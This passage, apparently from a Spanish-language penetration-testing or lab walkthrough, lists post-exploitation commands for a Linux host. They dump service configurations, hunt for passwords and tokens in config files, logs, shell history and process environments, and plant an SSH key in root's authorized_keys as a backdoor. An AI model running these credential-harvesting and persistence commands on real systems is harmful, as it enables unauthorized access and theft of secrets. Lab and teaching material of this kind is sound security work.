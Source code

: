 #### Configuraciones Críticas
```bash
# SSH Configuration
cat /etc/ssh/sshd_config | grep -v "^#"

# Apache Configuration  
cat /etc/apache2/sites-enabled/000-default.conf
cat /etc/apache2/apache2.conf | grep -v "^#"

# Samba Configuration
cat /etc/samba/smb.conf | grep -v "^#"

# Webmin/Usermin Config
find /etc -name "*webmin*" -o -name "*usermin*" 2>/dev/null
cat /etc/webmin/miniserv.conf
```

### 4.2 Búsqueda de Datos Sensibles

```bash
# Archivos de configuración con posibles credenciales
find /etc -type f -name "*.conf" -exec grep -l "password\|pass\|pwd" {} \;

# Archivos de log con información sensible
find /var/log -type f -readable -exec grep -l "password\|login\|auth" {} \;

# Historial de comandos
find /home -name ".*history" -readable 2>/dev/null
cat /home/cyber/.bash_history

# Variables de entorno en procesos
cat /proc/*/environ 2>/dev/null | tr '\0' '\n' | grep -E "(PASS|KEY|TOKEN)"
```

### 4.3 Técnicas de Persistencia (Solo para Demostración)

**⚠️ IMPORTANTE: Estas técnicas son solo para demostración educativa**

#### SSH Key Backdoor
```bash
# Generar par de claves SSH
ssh-keygen -t rsa -b 4096 -f /tmp/backdoor_key -N ""

# Agregar clave pública a authorized_keys
mkdir -p /root/.ssh
cat /tmp/backdoor_key.pub >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
chmod 700 /root/.ssh

# Copia de seguridad de la clave privada
cp /tmp/backdoor_key ./root_backdoor_key
```
